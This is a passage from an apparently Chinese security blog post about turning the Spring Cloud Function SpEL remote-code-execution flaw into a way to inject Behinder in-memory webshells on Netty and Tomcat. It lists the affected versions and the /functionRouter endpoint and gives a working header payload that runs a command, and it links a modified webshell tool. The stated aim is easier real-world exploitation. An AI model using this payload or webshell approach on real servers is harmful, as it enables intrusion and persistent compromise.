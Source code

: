 #  Netty和Tomcat环境下给Spring Cloud Function Spel RCE注入冰蝎内存马   
 黑伞安全   2023-04-25 18:34  
  
在Spring Cloud Function SpEL RCE细节公布后，分析的文章很多，这里不再对漏洞进行分析，一直以来的习惯就是对漏洞进行包装，Java中能RCE的漏洞尽量都注入冰蝎/哥斯拉/蚁剑内存马，而不是满足于简单的回显或一句话内存马，这样做的好处是大家在实战利用的过程中更加方便，提升效率。这篇文章记录了漏洞包装的过程中克服的一些难点——无session情况下的冰蝎连接及Netty下通过Header头获取POST的body内容。  
  
  
文章可分为三部分：  
  
  
1.漏洞复现  
  
2.Spring Cloud Function在Netty下如何注入冰蝎内存马  
  
3.Spring Cloud Function在Tomcat下如何注入冰蝎内存马  
  
  
改版后的冰蝎已经上传至GitHub：  
  
https://github.com/shuimuLiu/Behinder-Base65  
  
  
  
**0****1**  
  
**影响版本**  
  
  
  
3 <= Version <= 3.2.2（commit dc5128b之前）  
  
  
  
**0****2**  
  
**漏洞复现**  
  
  
  
**漏洞环境：**  
  
https://github.com/spring-cloud/spring-cloud-function/releases/tag/v3.2.0  
  
  
**漏洞触发的URL**  
：/functionRouter  
  
  
**Header头加数据**  
：spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8h4LtZFwYlluJV5SQFgKAicoBWd3GYb4zAIgzkMwbwVE6ibGRzTOXMlQGA/640?wx_fmt=png "")  
  
  
弹出计算器  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hojEYDNasnuduDj9WTBY83pFv8hFlssT4WSwZ8agvO5sNKWoIp08Lhg/640?wx_fmt=png "")  
  
  
  
**0****3**  
  
**Netty内存马适配**  
  
